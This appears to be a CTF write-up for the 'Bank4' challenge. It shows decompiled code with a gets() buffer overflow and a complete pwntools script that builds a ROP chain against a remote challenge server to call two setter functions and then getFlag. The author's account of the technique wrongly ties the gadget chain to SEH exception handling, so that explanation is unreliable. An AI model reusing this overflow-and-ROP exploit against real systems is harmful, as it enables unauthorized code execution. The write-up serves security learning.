

# **Bank4**

Pseudo code from IDA:

```c++
void __cdecl up1(int arg1, int arg2)
{
  if ( o2 && arg1 == 0x1337 && arg2 == 0xDEAD )
    o1 = 1;
}
void __cdecl up2(int arg1, int arg2, int arg3)
{
  if ( arg1 == arg2 && arg3 == 0x12345678 )
    o2 = 1;
}
void getFlag()
{
  if ( o1 && o2 )
    system("cat flag.txt");
  else
    system("echo \"hcmasd-cft{nah_nah_nah_not_today}\"");
}
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n");
}
```

I know that `getFlag` will give me the way to get flag but it requires o1 & o2 TRUE. Digging further, I can see `up1` and `up2` can help me do that. So the mission here is to call `up2`, `up1` and `getFlag` in order and with correct arguments. And I have to pass the correct arguments to functions too so I need some pop ret instructions to put them in correct places.

Here is what I found on this [site](https://dkalemis.wordpress.com/2010/10/27/the-need-for-a-pop-pop-ret-instruction-sequence/)which can help me call a function and put it in action with its arugments after wandering on the internet :

> POP POP RET is a sequence of instructions needed in order to create SEH (Structured Exception Handler) exploits. The registers to which the popped values go are not important for the exploits to succeed, only the fact that ESP is moved towards higher addresses twice and then a RET is executed. Thus, either POP EAX, POP EBX, RET, or POP ECX, POP ECX, RET or POP EDX, POP EAX, RET (and so on) will do.


>In order to create successful SEH exploits, the address of a POP POP RET sequence has to be found. This will enable the attacker to move ESP towards higher addresses twice and then transfer execution at the address where ESP points at.

TLDR: Basically SEH will help me to raise an exception which means that I can fully function a function by passing arguments then return to where it starts.

So I know that I just need to find the random address that will execute a SEH instruction. After calling the function, I need to call the SEH instruction to pass the arguments, and end it for the next function. ROPgadget will help me find it by:

```ROPgadget --binary bank4 | grep ret```



Calling `up2` then ignore the Sub, POP 3 arguments then return to call `up1`

Calling `up1` with 2 arguments and ignore 1 more pop in the same pop_pop_pop_ret address.

The exploit code:

```python

from pwn import *
import os

r = remote("61.28.237.24",30205)
#r=process("./bank4")

r.recvuntil('[+] Please enter your name: ')
offset=4
payload= "A"*64+16*"B"

pop_pop_pop_ret=p32(0x0805235e+2)#ignore sub
pop_pop_ret=p32(0x0805235e+3)#ignore 1 more pop

payload+=p32(0x080488db)+pop_pop_pop_ret        #up2
payload+=p32(0xDEAD)+p32(0xDEAD)+p32(0x12345678)#arguments
payload+=p32(0x080488a5)+pop_pop_ret            #up1
payload+=p32(0x1337)+p32(0xDEAD)                #arguments
payload+=p32(0x08048906)                        #getFlag

r.sendline(payload)
r.interactive()

#HCMUS-CTF{trungdeptrai}
```

[**Turn Back**](README.md)